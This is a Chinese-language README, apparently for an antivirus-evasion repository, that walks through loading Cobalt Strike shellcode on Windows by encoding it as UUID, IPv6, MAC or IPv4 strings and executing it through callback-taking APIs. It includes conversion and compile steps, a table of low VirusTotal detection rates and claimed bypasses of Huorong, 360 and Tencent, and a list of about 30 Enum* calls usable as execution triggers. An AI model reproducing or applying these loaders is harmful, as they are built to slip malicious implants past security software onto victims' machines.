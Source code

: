 # 免杀方式：回调函数



## 编译环境：

VS2022、Windows SDK 10.0、C++14



## 目录

| 版本号 | 写入内存方式                         | VT查杀率 | 时间       | 火绒 | 360  | 腾讯 | 代码 |
| ------ | ------------------------------------ | -------- | ---------- | ---- | ---- | ---- | ---- |
| 0.1    | uuid转化(UuidFromStringA)            | 4/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.2    | base64+uuid转化(UuidFromStringA)     | 2/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.3    | ipv6转化(RtlIpv6StringToAddressA)    | 2/68     | 2022-02-21 | √    | √    | √    | c++  |
| 0.4    | mac转化(RtlEthernetStringToAddressA) | 3/67     | 2022-02-21 | √    | √    | √    | c++  |
| 0.5    | ipv4转化(RtlIpv4StringToAddressA)    | 2/66     | 2022-03-07 | √    | √    | √    | c++  |



## 上手指南

 使用Cobalt Strike生成X64位的shellcode

![image-20220218181020741](../images/image-callback-1.png)

###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```

![image-20220218192747863](../images/image-callback-2.png)

将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。



### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```

![image-20220218193413454](../images/image-callback-3.png)

将转换好的base64，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。



### 版本0.3

先将shellcode转化为ipv6格式，客户端读取ipv6之后调用RtlIpv6StringToAddressA恢复成shellcode再通过回调函数加载至内存

将shellcode替换至./v0.3/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv6)

```python
python3 ./v0.3/trans.py
```

![111](../images/image-callback-5.png)

将转换好的ipv6，替换至./v0.3/main.cpp中的ipv6数组中

编译运行即可。



### 版本0.4

将shellcode替换至./v0.4/trans.py中的buf变量，并执行该脚本。(shellcode -> mac)

```python
python3 ./v0.4/trans.py
```

将转换好的mac，替换至./v0.4/main.cpp中的mac_数组中

编译运行即可。



### 版本0.5

将shellcode替换至./v0.5/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv4)

```python
python3 ./v0.5/trans.py
```

将转换好的ipv4，替换至./v0.5/main.cpp中的ipv4数组中

编译运行即可。





## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)



## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成shellcode，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。

![cucv50oqin](../images/image-callback-4.png)

WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

### 可利用的回调函数

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);

EnumTimeFormatsW((TIMEFMT_ENUMPROCW)ha, NULL, NULL);
EnumTimeFormatsW((TIMEFMT_ENUMPROCW)ha, NULL, NULL);
EnumUILanguagesW((UILANGUAGE_ENUMPROCW)ha, NULL, NULL);
EnumTimeFormatsEx((TIMEFMT_ENUMPROCEX)ha, NULL, NULL, NULL);
EnumSystemLocalesW((LOCALE_ENUMPROCW)ha, NULL);
EnumSystemLocalesEx((LOCALE_ENUMPROCEX)ha, NULL, NULL, NULL);
EnumSystemLanguageGroupsW((LANGUAGEGROUP_ENUMPROCW)ha, NULL, NULL);
EnumSystemGeoNames(NULL, (GEO_ENUMNAMEPROC)ha, NULL);
EnumLanguageGroupLocalesW((LANGGROUPLOCALE_ENUMPROCW)ha, LGRPID_ARABIC, 0, NULL);
EnumLanguageGroupLocalesA((LANGGROUPLOCALE_ENUMPROCA)ha, LGRPID_ARABIC, 0, NULL);
EnumDateFormatsW((DATEFMT_ENUMPROCW)ha, NULL, NULL);
EnumDateFormatsExW((DATEFMT_ENUMPROCEXW)ha, NULL, NULL);
EnumDateFormatsExEx((DATEFMT_ENUMPROCEXEX)ha, NULL, NULL, NULL);
EnumDateFormatsExA((DATEFMT_ENUMPROCEXA)ha, NULL, NULL);
```



IPV6同uuid的原理，先将恶意payload转化成ipv6格式，再通过windows系统库函数去解析成shellcode，再去加载至内存，达到免杀效果。





## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows
